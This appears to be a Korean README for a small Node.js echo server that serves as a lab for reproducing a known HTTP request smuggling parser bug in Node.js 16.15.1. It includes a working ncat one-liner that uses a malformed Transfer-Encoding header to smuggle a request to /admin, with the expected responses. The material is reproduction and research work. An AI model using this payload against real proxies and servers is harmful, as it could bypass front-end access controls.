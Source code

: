 # Backend (Node.js 서버) README

요구사항:

- Node.js 16.15.1 (이보다 높은 버전은 파서 버그가 패치되어서 스머글링 불가능)

(예전 버전에서 16.5.1이라고 썼던 건 오타입니다.)

테스트 서버 실행:

``` console
node app.js 3000
```

여기서 3000은 포트번호 예시입니다. 첫 번째 인수를 포트번호로 받습니다.

코드가 170줄 정도 됩니다만 대부분은 개발 중 코드를 주석처리한 거고 실제로 동작하는 서버 코드는 이부분입니다:

``` javascript
  let body = [];
  req.on('error', (err) => {
    res.end("error while reading body: " + err)
  }).on('data', (chunk) => {
    body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body).toString();
    res.on('error', (err) => {
      res.end("error while sending response: " + err)
    });
   res.end(JSON.stringify({
      "URL": req.url,
      "Headers": req.headers,
      "Length": body.length,
      "Body": body,
    }, undefined, 2) + "\n");
  });
```

그냥 요청 URL, Header, Length, Body를 그대로 되돌려주기만 합니다.

로컬에서 실행했을 때에는, Windows Powershell과 [NMap](https://nmap.org/ncat/)의 ncat을 사용해서 [파싱 버그를 재현](https://hackerone.com/reports/1524555)했었습니다.

``` console
echo "GET / HTTP/1.1`r`nTransfer-Encoding: chunkedchunked`r`n`r`n26`r`nGET / HTTP/1.1`r`nContent-Length: 30`r`n`r`n`r`n0`r`n`r`n`r`nGET /admin HTTP/1.1`r`n" | ncat localhost 3000
```

이렇게 요청했을 때 응답이 이래야 합니다:

응답 1번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 10:17:28 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 153

{
  "URL": "/",
  "Headers": {
    "transfer-encoding": "chunkedchunked"
  },
  "Length": 38,
  "Body": "GET / HTTP/1.1\r\nContent-Length: 30\r\n\r\n"
}
```

응답 2번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 10:17:28 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 68

{
  "URL": "/admin",
  "Headers": {},
  "Length": 0,
  "Body": ""
}
```

중요한 건 ATS가 첫 번째 요청을 무시하면서 그걸 노드에 그대로 전달해주는지 마는지네요.
